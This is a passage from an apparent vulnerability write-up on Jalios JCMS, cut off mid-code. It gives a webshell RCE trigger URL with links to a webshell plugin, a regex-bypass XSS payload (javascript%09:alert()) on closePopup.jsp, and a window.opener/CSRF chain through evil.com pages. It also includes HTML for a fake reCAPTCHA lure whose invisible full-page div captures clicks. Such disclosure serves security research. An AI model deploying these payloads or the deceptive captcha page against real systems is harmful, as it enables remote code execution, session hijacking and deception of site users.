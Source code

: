 The RCE is triggered here: `/plugins/Webshell/jsp/plugin.jsp?cmd=id`

The content of the plugin to include in the JavaScript code (in hexadecimal) can be found [here](./files/plugin_hex.txt).  
The plugin can also be installed manually. It is available in zip format [here](./files/webshell_0.1.zip).

## Openredirect to XSS by escaping url validation RegEx
The URL validation regex can be bypassed to perform an action similar to: 

```javascript
document.location="javascript:alert(1)"
```
It is possible to add a `\t` *(%09)* between `javascript` and `:` to bypass regex detection.

Thus, the Open redirect on `/jcore/closePopup.jsp` is actually an XSS!
- `/jcore/closePopup.jsp?redirectNoClose=javascript%09:alert()`

Additionally, the following pages allow controlling the URL of the parent window *(window.opener)* via the `redirect` parameter:   
- `/work/popupImportCatList.jsp`  
- `/jcore/closePopup.jsp` 

We can therefore perform the following attack with a page controlled by the attacker.
- The victim visits **evil.com/1**
- **evil.com/1** opens a new tab to **evil.com/2** using the JavaScript `open` function
- **evil.com/1** redirects to the Jalios instance.
- **evil.com/2** CSRF to the vulnerable page. The XSS is triggered on the first window.

However, for a page to open another page, user interaction is required. 
Indeed, the `open` function is blocked by browsers if it is triggered automatically.
We will therefore create a fake captcha page and add an `onclick` handler to an invisible div covering the entire page.  
The page will open on any click on our first malicious page.

The first page is as follows: 

*page1.html*
```html
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"> 
<html> 
<head> 
<meta http-equiv="content-type" content="text/html; charset=utf-8"> 
    <meta name="viewport" content="initial-scale=1"> 
    <title>reCAPTCHA</title> 
    <style> 
        body{font-family:Arial,sans-serif;background-color:#fff;color:#000;margin:0;padding:20px;font-size:18px;overscroll-behavior:contain}hr{border:0;height:1px;background-color:#ccc;margin:10px 0}.container{max-width:400px;margin:0}.recaptcha-container{background-color:#f9f9f9;border:1px solid #d3d3d3;border-radius:3px;padding:10px;box-shadow:0 0 10px rgba(0,0,0,.1);margin:10px 0}.checkbox-container{display:flex;align-items:center;margin-bottom:10px}.checkbox{width:28px;height:28px;background-color:#fff;border:2px solid #c1c1c1;border-radius:2px;display:flex;align-items:center;justify-content:center;cursor:pointer}.checkbox:hover{border-color:#b2b2b2}.checkbox-tick{font-size:18px;color:#34a853;display:none}.checkbox-text{margin-left:10px;font-size:14px;color:#000}.recaptcha-logo{width:50px;height:50px;margin-left:auto}.recaptcha-footer{font-size:8px;color:#555;text-align:center;margin-top:10px}.recaptcha-footer a{color:#555;text-decoration:none}.info a:hover,.recaptcha-footer a:hover{text-decoration:underline}.info{font-size:13px;line-break:anywhere;margin-top:10px}.info a{color:#1a0dab;text-decoration:none}.info-div{display:none;background-color:#eee;padding:10px;margin:10px 0;line-height:1.4em}#XSSDiv{position:fixed;top:0;left:0;width:100vw;height:100vh;background:rgba(0,0,0,.01);z-index:9999;pointer-events:all} 
    </style> 
</head> 
<body> 
    <script> 
        function trigger(){ 
            open('/page2.html') 
            document.location="http://172.22.12.128:8001/jalios/"; 
```